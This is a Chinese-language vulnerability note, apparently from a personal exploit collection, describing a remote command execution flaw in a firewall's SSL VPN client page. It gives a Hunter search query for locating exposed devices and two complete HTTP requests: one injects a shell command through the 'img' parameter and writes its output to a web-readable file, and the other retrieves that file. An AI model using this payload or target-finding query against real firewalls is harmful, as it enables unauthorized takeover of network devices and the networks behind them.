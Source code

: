 # 鑫塔第二代防火墙sslvpn_client存在远程命令执行漏洞

# 一、漏洞简介
鑫塔第二代防火墙sslvpn_client存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 博达下一代防火墙

# 三、资产测绘
+ hunter`web.body="欢迎登录鑫塔第二代防火墙"`
+ 特征

![1701763927338-de770e3a-3043-4409-ab92-51fd20c0c231.png](./img/a95HTPaLIvNmPZAV/1701763927338-de770e3a-3043-4409-ab92-51fd20c0c231-964403.png)

# 四、漏洞复现
```java
GET /sslvpn/sslvpn_client.php?client=logoImg&img=x%20/tmp|echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/ceshi.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701762310844-e2bb6845-f268-450b-b1ef-4ddc2f30876e.png](./img/a95HTPaLIvNmPZAV/1701762310844-e2bb6845-f268-450b-b1ef-4ddc2f30876e-966135.png)

获取命令执行结果

```java
GET /sslvpn/ceshi.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701762342384-224cbced-19ed-428d-b26d-9957865251d2.png](./img/a95HTPaLIvNmPZAV/1701762342384-224cbced-19ed-428d-b26d-9957865251d2-569179.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/du84v1279q9b4hgp>